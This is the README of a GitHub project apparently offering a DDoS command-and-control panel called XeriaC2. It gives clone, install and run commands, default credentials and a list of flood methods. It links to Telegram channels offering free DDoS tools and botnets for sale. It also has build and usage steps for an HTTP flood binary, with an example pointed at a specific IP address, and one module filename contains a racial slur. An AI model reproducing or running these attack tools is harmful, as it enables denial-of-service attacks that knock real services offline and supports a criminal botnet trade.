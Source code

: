 ## Setup/Install
```sh
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

node auto_install_modules.js 404.js HTTP-NIGGA.js BYPASS.js holdv2.js Tlsv1.js

pip3 install -r requirements.txt

python xeriac2.py

```

## Login 
```sh
Username : root
Password : 23

```
## How To Install Modules
```sh
How To Install Modules Please Are You Get Error cannot find module
- Usage : node auto_install_modules.js HTTP.js
- Example : node auto_install_modules.js example.js
Note : 
- Please Dont Input the on xeriac2.py
- you can input the cd XeriaC2
- python xeriac2.py
- choose methods
- error?
- ctrl + c
- node auto_install_modules.js example.js

```

## Methods Work On xeriac2.py
```sh
- HTTP
- TLS
- TLSV2
- TLSV3
- BOMB
- MIX

```

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/freetoolsddos

C2 or Botnet if you wanna buy : https://t.me/perkicauc2

Power Proof : https://t.me/PerkicauC2PowerProof

Chat : https://t.me/+FlxMp6qQVoNmZWZl

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
